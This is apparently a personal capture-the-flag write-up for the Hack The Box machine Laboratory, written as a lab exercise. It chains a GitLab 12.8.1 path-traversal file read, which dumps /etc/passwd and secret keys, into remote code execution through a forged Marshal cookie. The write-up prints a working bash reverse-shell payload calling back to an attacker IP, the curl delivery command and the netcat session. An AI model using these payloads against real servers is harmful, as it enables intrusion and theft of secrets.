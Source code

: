 # git.laboratory.htb


![[Pasted image 20210424071508.png]]



*Created User napster *

![[Pasted image 20210424071805.png]]

* *After logging in with the created user enumerated the vesion of the gitlab-*

###  12.8.1

![[Pasted image 20210424072356.png]]

* *After Googling we came up with an interesting hacker one blogspot-*

### Link- https://hackerone.com/reports/827052

![[Pasted image 20210424073031.png]]

### Explaination -
```bash
### Steps to reproduce

1.  Create two projects
    
2.  Add an issue with the following description:

![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)


3.	Move the issue to the second project 


4. The file will have been copied to the project 

### Impact Allows an attacker to read arbitrary files on the server, including tokens, private data, configs, etc

```


# Exploitation(LFI)-

* *Created two projects-*

![[Pasted image 20210424074423.png]]

* *Creating issue on the another project-*

![[Pasted image 20210424074731.png]]


![[Pasted image 20210424074946.png]]

* *Move the issue-*

![[Pasted image 20210424075206.png]]

* *And BOOM xD we can download the etc/passwd file-*

![[Pasted image 20210424075357.png]]


![[Pasted image 20210424075440.png]]

* *Content of /etc/passwd-*

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
sshd:x:105:65534::/var/run/sshd:/usr/sbin/nologin
git:x:998:998::/var/opt/gitlab:/bin/sh
gitlab-www:x:999:999::/var/opt/gitlab/nginx:/bin/false
gitlab-redis:x:997:997::/var/opt/gitlab/redis:/bin/false
gitlab-psql:x:996:996::/var/opt/gitlab/postgresql:/bin/sh
mattermost:x:994:994::/var/opt/gitlab/mattermost:/bin/sh
registry:x:993:993::/var/opt/gitlab/registry:/bin/sh
gitlab-prometheus:x:992:992::/var/opt/gitlab/prometheus:/bin/sh
gitlab-consul:x:991:991::/var/opt/gitlab/consul:/bin/sh

```

# Exploitation(LFI to RCE)-

The can be done by first grabbing the `secret_key_base` from `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` using the arbitrary file read and then use the `experimentation_subject_id` cookie with a Marshalled payload.

====================================================================================================================================

* *Grabbing the `secret_key_base` from `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` using the above mentioned LFI*

![[Pasted image 20210424081500.png]]

![[Pasted image 20210424081927.png]]

* *secret_key_base- 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3*

```bash
production:
  db_key_base: 627773a77f567a5853a5c6652018f3f6e41d04aa53ed1e0df33c66b04ef0c38b88f402e0e73ba7676e93f1e54e425f74d59528fb35b170a1b9d5ce620bc11838
  secret_key_base: 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
  otp_key_base: db3432d6fa4c43e68bf7024f3c92fea4eeea1f6be1e6ebd6bb6e40e930f0933068810311dc9f0ec78196faa69e0aac01171d62f4e225d61e0b84263903fd06af
  openid_connect_signing_key: |
  
  ```
  
  
  
  
 # Setting up Local Enviornment for Exploitation-
 
 * **apt install docker.io**
  * **docker run gitlab/gitlab-ce:12.8.1-ce.0**
  



  # Local Gitlab Instance-
  
  ## Change the secret_key_base to the above key,then restart gitlab & finally start gitlab console(ruby)-
  
  ```bash
  root@napster:~/Documents/HTB/Laboratory# docker ps
CONTAINER ID   IMAGE                          COMMAND             CREATED             STATUS                       PORTS                     NAMES
e883c6fc4138   gitlab/gitlab-ce:12.8.1-ce.0   "/assets/wrapper"   About an hour ago   Up About an hour (healthy)   22/tcp, 80/tcp, 443/tcp   compassionate_bouman
root@napster:~/Documents/HTB/Laboratory# docker exec -it e8 bash
root@e883c6fc4138:/# nano /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml                                                                        
root@e883c6fc4138:/# gitlab-ctl restart
ok: run: alertmanager: (pid 2188) 1s                                                                                                                          
ok: run: gitaly: (pid 2203) 1s                                                                                                                                
ok: run: gitlab-exporter: (pid 2221) 0s                                                                                                                       
ok: run: gitlab-workhorse: (pid 2224) 0s                                                                                                                      
ok: run: grafana: (pid 2233) 0s                                                                                                                               
ok: run: logrotate: (pid 2249) 0s                                                                                                                             
ok: run: nginx: (pid 2269) 0s                                                                                                                                 
ok: run: postgres-exporter: (pid 2278) 1s                                                                                                                     
ok: run: postgresql: (pid 2290) 0s                                                                                                                            
ok: run: prometheus: (pid 2300) 1s                                                                                                                            
ok: run: redis: (pid 2314) 0s                                                                                                                                 
ok: run: redis-exporter: (pid 2319) 1s                                                                                                                        
ok: run: sidekiq: (pid 2328) 0s                                                                                                                               
ok: run: sshd: (pid 2411) 0s                                                                                                                                  
ok: run: unicorn: (pid 2419) 1s                                                                                                                               
root@e883c6fc4138:/# ls                                                                                                                                       
RELEASE  assets  bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var                                       
root@e883c6fc4138:/# gitlab-rails console                                                                                                                     
--------------------------------------------------------------------------------                                                                              
 GitLab:       12.8.1 (d18b43a5f5a) FOSS                                                                                                                      
 GitLab Shell: 11.0.0                                                                                                                                         
 PostgreSQL:   10.12                                                                                                                                          
--------------------------------------------------------------------------------                                                                              
Loading production environment (Rails 6.0.2)                                                                                                                  
irb(main):001:0>
  ```
  
  
  
  # Deserialized Payload and Reverse Shell-
  
  ```ruby
  request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar

erb = ERB.new("<%= `bash -c 'bash -i >& /dev/tcp/10.10.14.12/9001 0>&1'` %>")
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kidSNjb2Rpbmc6VVRGLT
gKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjEyLzkwMDEgMD4mMSdgICkudG9fcyk7IF9lcmJvdXQGOgZFRjoOQGVuY29kaW5nSXU6
DUVuY29kaW5nClVURi04BjsKRjoTQGZyb3plbl9zdHJpbmcwOg5AZmlsZW5hbWUwOgxAbGluZW5vaQA6DEBtZXRob2Q6C3Jlc3VsdDoJQHZhckkiDEByZXN1bHQGOwpUOhBAZGVwcmVjYXRvckl1Oh9BY3Rpdm
VTdXBwb3J0OjpEZXByZWNhdGlvbgAGOwpU--e88eef22cb7e065db78ff6c5e61d63471fc66363
=> nil
irb(main):009:0> 
```
  
  ## Curling while litsening on netcat-
  
  ```bash
  root@napster:~/Documents/HTB/Laboratory# curl -vvv -k 'https://git.laboratory.htb/users/sign_in' -b "experimentation_subject_id=BAhvOkBBY3RpdmVTdXBwb[111/111$ByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kidSNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91
dC48PCgoIGBiYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjEyLzkwMDEgMD4mMSdgICkudG9fcyk7IF9lcmJvdXQGOgZFRjoOQGVuY29kaW5nSXU6DUVuY29kaW5nClVURi04BjsKRjoTQG
Zyb3plbl9zdHJpbmcwOg5AZmlsZW5hbWUwOgxAbGluZW5vaQA6DEBtZXRob2Q6C3Jlc3VsdDoJQHZhckkiDEByZXN1bHQGOwpUOhBAZGVwcmVjYXRvckl1Oh9BY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbgAG
OwpU--e88eef22cb7e065db78ff6c5e61d63471fc66363"
  ```
  
  ## Netcat-
  
  ```bash
  root@napster:~/Documents/HTB/Laboratory# nc -nvlp 9001                                                                                               [351/351]listening on [any] 9001 ...                                                                                                                                   
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.216] 46828                                                                                                  
bash: cannot set terminal process group (392): Inappropriate ioctl for device                                                                                 
bash: no job control in this shell                                                                                                                            
git@git:~/gitlab-rails/working$ which python3                                                                                                                 
which python3                                                                                                                                                 
/opt/gitlab/embedded/bin/python3                                                                                                                              
git@git:~/gitlab-rails/working$ python3 -c 'import pty;pty.spawn("/bin/bash")'                                                                                
<ing$ python3 -c 'import pty;pty.spawn("/bin/bash")'                                                                                                          
git@git:~/gitlab-rails/working$ ^Z                                                                                                                            
[1]+  Stopped                 nc -nvlp 9001                                                                                                                   
root@napster:~/Documents/HTB/Laboratory# stty raw -echo                        
root@napster:~/Documents/HTB/Laboratory# nc -nvlp 9001
git@git:~/gitlab-rails/working$ export TERM=xterm
git@git:~/gitlab-rails/working$ whoami
git
```